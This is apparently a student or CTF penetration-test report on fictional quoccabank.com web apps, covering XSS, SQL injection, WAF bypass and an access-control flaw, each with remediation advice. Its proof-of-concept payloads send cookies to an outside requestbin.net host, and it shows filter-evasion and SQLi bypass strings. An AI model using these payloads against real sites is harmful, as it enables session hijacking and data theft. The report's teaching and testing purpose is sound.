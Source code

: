 ### Reflected XSS - Reflected XSS in Comment Filter
**Asset Domain:** science-today.quoccabank.com
**Severity Classification:** High
**Vulnerability Details**
A reflected XSS vulnerability exists in the comment filtering system for the `science-today` blog.
**Proof of Concept / Steps to Reproduce**
We can escape the header context of our reflected input with `</h3>` - a clear lack of sanitisation of user input. 
![](/Images/Pasted%20image%2020210806161850.png)
From there, we can evade the single pass filter by nesting blacklisted tags (such as `img` and `onerror`). We can now invoke arbitrary javascript , allowing us to leak clientside secrets. 
As a POC, we leak the `query-flag` cookie by appending it to a redirect to an attacker controlled server then reporting the page (along with the comment filter parameter):
```
<imimgg src="x" oneonerrorrror="location.href='http://requestbin.net/r/du0jqnpb/?c='+btoa(document.cookie)"></imimgg>
```
![](/Images/Pasted%20image%2020210806161838.png)

**Impact**
Coupled with the automated administration system that renders javascript on reported pages, this reflected XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks.  

**Remediation**
Implement a whitelist to sanitise user input at both the client and server side -  Ideally, through a well supported framework such as `jsoup`.
	
### Stored XSS - Stored XSS in Comment Section
**Asset Domain:** science-today.quoccabank.com
**Severity Classification:** High
**Vulnerability Details**
A stored XSS vulnerability exists in the comment section of the `science-today` blog.
**Proof of Concept / Steps to Reproduce**
We can easily see that no sanitisation is performed on submitted comments - allowing us to invoke arbitrary JS & HTML:
```
</p><b>awf</b>
```
![](/Images/Pasted%20image%2020210806163027.png)

Exploitation is similar to the exploitation of the above reflected XSS vulnerability. Instead of a filter to contend with, our payload must fit a somewhat tight length limit. 
Again, as a POC, we leak sensitive a clientside secret - the `flag` cookie - by appending it to a JS web request to an attacker controlled server.
```
<img src="x" onerror="new Image().src='http://requestbin.net/r/du0jqnpb/?c='+document.cookie">
```
We can then report the page to the automated administration system and leak sensitive information.

**Impact**
Coupled with the automated administration system that renders javascript on reported pages, this stored XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks.

Additionally, the stored nature of the payload makes mass exploitation trivial - dramatically increasing the impact of a malicious payload.  

**Remediation**
Implement a whitelist to sanitise user input at both the client and server side -  Ideally, through a well supported framework such as `jsoup`.

### Reflected XSS - Reflected XSS in Comment Filter behind WAF
**Asset Domain:** science-tomorrow.quoccabank.com
**Severity Classification:** High
**Vulnerability Details**
A reflected XSS vulnerability exists in the comment filtering system for the `science-tomorrow` blog - identical to the reflected XSS vulnerability in `science-today.quoccabank.com`. 
**Proof of Concept / Steps to Reproduce**
See the POC for the reflected XSS vulnerability in `science-today`. 

Some adjustments must be made to contend with a new obstacle - the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  

The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" Javascript constructs (e.g. `eval(window.atob())` and `location.href`). 

Otherwise, exploitation follows exactly as in `science-today` - allowing us to leak the `query-flag` cookie by reporting the filtered page. 

```
<img src="x" onerror="location.href='http://requestbin.net/r/gngcllan?c='+btoa(document.cookie)"></img>
```

![](/Images/Pasted%20image%2020210806163815.png)

**Impact**
Coupled with the automated administration system that renders javascript on reported pages, this reflected XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks.  

**Remediation**
Implement a whitelist to sanitise user input at both the client and server side -  Ideally, through a well supported framework such as `jsoup`.

Moreover, we recommend the adoption of a commercial WAF package in place of the current home-brew solution.


### Stored XSS - Stored XSS in Comment Section behind WAF
**Asset Domain:** science-today.quoccabank.com
**Severity Classification:** High
**Vulnerability Details**
A stored XSS vulnerability exists in the comment section of the `science-tomorrow` blog - identical to the stored XSS vulnerability in `science-today.quoccabank.com`. 
**Proof of Concept / Steps to Reproduce**
As in the above reflected XSS exploit - reproduction steps are identical to the non proxied variant albeit with the addition of a WAF bypass. The same payload produces results, allowing us to leak the `flag` cookie once the page is reported:

```
<img src="x" onerror="location.href='http://requestbin.net/r/gngcllan?c='+btoa(document.cookie)"></img>
```



**Impact**
Coupled with the automated administration system that renders javascript on reported pages, this stored XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks.

Additionally, the stored nature of the payload makes mass exploitation trivial - dramatically increasing the impact of a malicious payload.  

**Remediation**
Implement a whitelist to sanitise user input at both the client and server side -  Ideally, through a well supported framework such as `jsoup`.

Moreover, we recommend the adoption of a commercial WAF package in place of the current home-brew solution.
	
### SQL Injection - SQLi in Payment Portal behind WAF
**Asset Domain:** payportal-v2.quoccabank.com
**Severity Classification:** Critical
**Vulnerability Details**
There exists an SQL injection vulnerability in the `period` parameter sent to the payment portal backend, identical to the vulnerability in `pay-portal.quoccabank.com`. 
**Proof of Concept / Steps to Reproduce**
The first (and last) line of defence against SQLi here is the WAF provided by `ctfproxy2`. By probing the parameter with inputs, we discover that the double dash comment characters `--` and ` or ` (or surrounded with whitespace) trigger the HackShield WAF. 

To bypass this blacklist matching, we simply replace our space characters with an inline comment - e.g. `1"/**/or/**/`. 

As a POC, we leak all entries in the `payportal` table with a modified `1" or "1" = "1";` payload - revealing sensitive information. 

```
1"/**/or/**/"1"="1";
```

```
https://ctfproxy2.quoccabank.com/api/payportal-v2/?period=1%22%2F**%2For%2F**%2F%221%22%3D%221%22%3B
```

![](/Images/Pasted%20image%2020210806172706.png)

**Impact**
The SQLi vulnerability enables the execution of a subset of SQL. An attacker may exfiltrate records in the local database, pivot to connected DB systems or escalate to RCE depending on the backend environment and DB configuration (unlikely here due to a lack of write privileges). 

**Remediation**
Make use of the prepared statements binding provided in the appropriate backend framework. Refer to `https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html` for further guidance.

### Incorrect Access Control - No API Key Authentication in `flagprinter` 
**Asset Domain:** flagprinter.quoccabank.com
**Severity Classification:** Medium
**Vulnerability Details**
The internal web application `flagprinter` does not check whether the supplied `ctfproxy2-key` is authorised to access the application. This oversight allows an attacker to view sensitive information.

This vulnerability seems to have been picked up by a previous audit, as the original API endpoint was disabled by an administrator. However, by creating another endpoint with the same origin, we can "reactivate" the service and retrieve sensitive information. 

**Proof of Concept / Steps to Reproduce**
The original endpoint for `flagprinter` has been disabled. However, by simply creating another endpoint with the same origin, we are able to view the web app.
![](/Images/Pasted%20image%2020210806191434.png)
![](/Images/Pasted%20image%2020210806191611.png)
![](/Images/Pasted%20image%2020210806191642.png)

Alternatively, we could forge requests to the `flagprinter` with an arbitrary username in the `ctfproxy2-user` header (and other appropriate headers to masquerade as the `ctfproxy2` server).

**Impact**
Confidential secrets are leaked from an internal development server. 

**Remediation**
Enforce stricter auditing of services before they go live. 
In this specific case - check the authorization of the `ctfproxy2-key` before responding to proxied requests.
